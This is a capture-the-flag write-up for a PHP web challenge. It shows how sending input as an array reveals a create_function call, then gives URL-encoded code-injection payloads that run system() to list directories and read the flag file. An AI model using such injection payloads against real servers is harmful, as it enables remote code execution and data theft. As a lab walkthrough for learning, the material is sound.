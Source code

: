 # Challenge description

Ever since Claw's last encounter with the Inspector, he has been feeling very vindictive and angry. He hasn't even fed M.A.D. Cat correctly!

Thankfully, M.A.D. Cat knows their treats are stored in the nibbles directory!

Author: AtomicNicos
-----------------------------------------------------------

This challenge provides this page where we can only enter 

```echo "Hello World!";```

and anything else won't work


So trying different ways to break this i tried sending the code as an array, and bingo ! we get an interesting error 



This means the create_function was used and this function can be exploited if the payload isn't sanitized, so we can inject arbitrary code and maybe get RCE !

More info about create_function code injection: 

```
https://www.exploit-db.com/exploits/32417

https://www.codetd.com/en/article/7175910

```


So using this payload we can get RCE 

``` code = 1;}system(%27ls%20../../../%27);/* ``` 

Next we just need to find the flag in the nibbles directory

```code=1;}system(%27cat%20./nibbles/flag.txt%27);/*```

``` Flag : DOCTF{G3TT1NG_RC3_(S0RRY_..._N1BBL3S)_1$_4LW4Y$_GR34T}  ```
